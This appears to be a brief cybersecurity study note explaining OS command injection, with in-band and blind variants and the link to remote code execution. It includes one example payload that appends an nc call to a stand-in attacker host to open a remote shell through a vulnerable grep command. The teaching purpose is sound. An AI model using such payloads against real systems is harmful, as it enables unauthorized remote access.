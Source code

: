 # Command injection

[![oscommandinjection](../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![command_injection](../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

<div class="row row-cols-md-2"><div>

Some websites may use the underlying system to run commands. For instance, a website on Linux might use `grep`, `sed`, or other utilities to do things faster/easily. A **command injection** occur when a developer use the user input in commands without proper sanitization/measures.

* Vulnerable call: `grep $injectable reports/` 
* Payload: `-V; nc hacker_ip port #`
* Result: `grep -V; nc hacker_ip port #reports/` which should open a remote shell on the target.
</div><div>

There are two kind of command injections

* **Regular/in-band**: the user receive the result of the command
* **Blind/out-band**: the hacker must use another way to know the result.
  * Using redirections/flags, create a URL-accessible output file
  * Using commands such as `sleep`/... to do a time-based attack

> **Command-injection** is a vulnerability leading to **Remote Command Execution** (RCE) which also means Remote Code Execution.
</div></div>